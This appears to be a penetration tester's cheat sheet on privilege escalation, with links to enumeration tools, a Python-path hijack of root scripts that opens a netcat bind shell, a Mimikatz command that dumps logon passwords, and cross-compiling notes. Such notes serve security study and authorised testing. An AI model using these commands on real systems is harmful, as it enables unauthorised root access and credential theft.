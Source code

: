 # Priv Esc

* [windows-privesc check](https://github.com/pentestmonkey/windows-privesc-check)
* [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
 
See https://github.com/diego-treitos/linux-smart-enumeration.

## Copying files to the target

```
python -m SimpleHTTPServer 8080
```

## Hijack root python scripts

```
$ cat shutil.py 
import os
os.system("nc -lvp 9001 -e /bin/bash")
$ sudo -E PYTHONPATH=$(pwd) script-you-can-run-that-imports-shutil.py
$ echo 'whoami' | nc localhost 9001
```

## lxd group rootage

See https://www.hackingarticles.in/lxd-privilege-escalation/.

## Compiling binaries when compiler tools aren't available

```
sudo gcc -Wall -o jj jj.c -march=i686 -m32 -Wl,--hash-style=both
```

```
sudo apt-get install gcc-multilib g++-multilib
sudo apt install g++-i686-linux-gnu
sudo apt install gcc-mingw-w64-i686
sudo apt install mingw-w64-i686-dev
```

* See https://opensource.com/article/19/7/cross-compiling-gcc.
* See https://github.com/dockcross/dockcross.

## Windows

```
whoami /all
```

* See http://www.fuzzysecurity.com/tutorials/16.html

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```
